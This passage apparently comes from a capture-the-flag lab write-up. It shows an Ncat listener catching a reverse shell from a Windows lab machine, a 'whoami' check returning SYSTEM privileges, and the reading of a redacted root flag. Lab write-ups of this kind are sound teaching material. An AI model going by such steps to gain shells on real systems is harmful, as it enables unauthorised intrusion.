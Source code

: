 ```jsx
Ncat: Connection from 10.10.10.169.
Ncat: Connection from 10.10.10.169:50748.
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

And we've got a shell!

```jsx
C:\Users\Administrator\Desktop>type root.txt
type root.txt
e1d[REDACTED]
```
